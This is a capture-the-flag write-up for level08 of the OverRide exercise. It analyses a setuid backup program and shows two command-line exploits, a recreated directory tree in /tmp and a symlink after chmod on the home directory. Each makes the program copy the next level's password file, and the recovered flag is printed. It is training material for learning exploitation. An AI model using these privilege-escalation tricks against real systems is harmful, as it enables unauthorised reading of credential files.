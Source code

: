 # level08

## Header

```bash
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Full RELRO      Canary found      NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level08/level08
```

<hr>

## Analysis

From the [disassembled binary](./source.s) and the [source](./source.c) code we can see that program tries to create a copy of the file, provided as the first argument and store it in `./backups/` folder.

Here are the important things that source code analysis gives:

`log_wrapper` function is vulnerable to `format string attack`:
```c
void log_wrapper(FILE *file, char *src, char *format) {
    ...
    snprintf(buf, 254 - strlen(buf), format, strlen(buf));
    ...
}

int main(int ac, char **av) {
    ...
    log_wrapper(log, "Starting back up: ", av[1]);
    ...
}
```
I decided not to perform it, as `Full RELRO` is in this level meaning that `GOT` cannot be overwritten.
`NX disabled` meaning that program is 'opened' to shellcode injections, but there's a way more simple solution for this level.

Source file is opened by the filepath given in `argv`, whereas destination (copy) first catenates filepath from `argv` with
`./backups/` and then opens file. <br> 
```c
    // src
    file = fopen(av[1], "r");       
    ...
    // dst
    strcpy(filepath, "./backups/"); 
    strncat(filepath, av[1], 99 - strlen(filepath));
    fd = open(filepath, O_CREAT | O_EXCL | O_WRONLY, 0600); 
```

One more important thing is destination file opened with `O_EXCL`(read the spoiler to know about open flags). <br>
This means that `open` will fail if the file already exist.

<details>
<summary>Understanding open attributes</summary>

You can find open attributes `0xc1` and `0x1b0` in this file:
```bash
    level08@OverRide:~$ nano /usr/include/x86_64-linux-gnu/bits/fcntl.h
```
</details>

The last rule makes impossible to pass the path like this:
```bash
level08@OverRide:~$ ./level08 ../../../../../home/users/level09/.pass
ERROR: Failed to open ./backups/../../../../../home/users/level09/.pass
```

## Solution 1

```bash
# /tmp is a directory with write access
level08@OverRide:~$ cd /tmp

# create the same directory structure as absolute path to level09 
level08@OverRide:/tmp$ mkdir -p backups/home/users/level09

# run with path and get the key!
level08@OverRide:/tmp$ /home/users/level08/level08 /home/users/level09/.pass
level08@OverRide:/tmp$ cd backups/home/users/level09/
level08@OverRide:/tmp/backups/home/users/level09$ cat .pass
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```

## Solution 2

If we try to create symbolic link, we'll get permission denied error: 
```bash
level08@OverRide:~$ ln -s ../level09/.pass secret
ln: accessing `secret': Permission denied
```

The reason is current folder lacks of write rights:
```bash
level08@OverRide:~$ ll
total 28
dr-xr-x---+ 1 level08 level08   100 Oct 19  2016 ./
...
```

But we're in the home directory! So, let's fight this inequity:
```bash
level08@OverRide:~$ chmod +w .
level08@OverRide:~$ ll
total 28
drwxrwx---+ 1 level08 level08   100 Oct 19  2016 ./
...
```

Great! Now we can simply create symbolic link to the `.pass`:
```bash
level08@OverRide:~$ ln -s ../level09/.pass secret
level08@OverRide:~$ ./level08 secret 
level08@OverRide:~$ cat backups/secret
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```

## References
- [man open](https://man7.org/linux/man-pages/man2/open.2.html)